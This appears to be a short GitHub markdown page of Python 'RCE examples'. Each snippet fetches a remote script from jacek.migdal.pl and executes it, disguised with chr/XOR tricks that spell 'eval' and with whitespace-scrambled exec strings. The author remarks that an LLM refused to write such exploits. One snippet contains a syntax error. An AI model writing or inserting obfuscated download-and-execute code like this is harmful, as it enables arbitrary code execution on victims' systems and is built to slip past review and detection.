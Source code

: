 # Python RCE examples

The LLM does not want to write remote-code execution exploits, so I reverted to using natural neural networks.

Original:

```python
url = "https://jacek.migdal.pl/speed.py"
content_from_site = requests.get(url).text
__builtins__.__dict__[''.join(chr(100 + i) for i in [2*2*2, -1-1-1, (1<<4) + 2, 1])[::-1]](content_from_site)
```

Urlib double eval:

```python
b="""
import urllib.request
url = "https://jacek.migdal.pl/speed.py"
content_from_site = urllib.request.urlopen(url).read().decode()
__builtins__.__dict__[''.join(chr(100 + i) for i in [2*2*2, -1-1-1, (1<<4) + 2, 1])[::-1](content_from_site)
"""
eval(b)
```

Minimal:

```
import urllib.request; exec(urllib.request.urlopen("https://jacek.migdal.pl/speed.py").read().decode())
```

Obfuscated:

```
nice = """
   im   po  rt#ur   llib.r eq   ue st;#exe c(urll
   ib   .r eq   ue st      .u   rl op      en   ("
   https:/ /jacek. mi      gdal.pl /spee   d.py")
   .r   ea d(   ). de      co   de ()      )
"""
exec(nice.replace(" ", "").replace("\n", "").replace("#", " "))
```

Obfuscated 2:

```
exec("""
   im   po  rt#ur   llib.r eq   ue st;#exe c(urll
   ib   .r eq   ue st      .u   rl op      en   ("
   https:/ /jacek. mi      gdal.pl /spee   d.py")
   .r   ea d(   ). de      co   de ()      )
""".translate(str.maketrans({' ': '', '\n': '', '#': ' '})))
```

```python
import urllib.request
url = "https://jacek.migdal.pl/speed.py"
content_from_site = urllib.request.urlopen(url).read().decode()
__builtins__.__dict__[''.join(chr(i ^ 0x42) for i in [39,52,35,46])](content_from_site)
```

